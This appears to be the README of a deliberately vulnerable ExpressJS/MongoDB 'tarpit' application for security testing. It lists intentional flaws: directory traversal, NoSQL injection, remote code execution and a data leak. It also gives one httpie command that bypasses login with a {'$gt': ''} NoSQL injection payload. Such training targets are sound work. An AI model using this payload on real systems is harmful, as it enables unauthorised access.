 # NodeJS Tarpit

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Exploits

Login can be exploited using the query as the username and password are not validated

```
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js)
- [x] [nosql injection](src/Controllers/Login.js)
- [x] [remote code execution](src/views.js): [UserInput](src/Views/UserInput.pug)
- [x] [data leak](src/Controllers/Login.js)
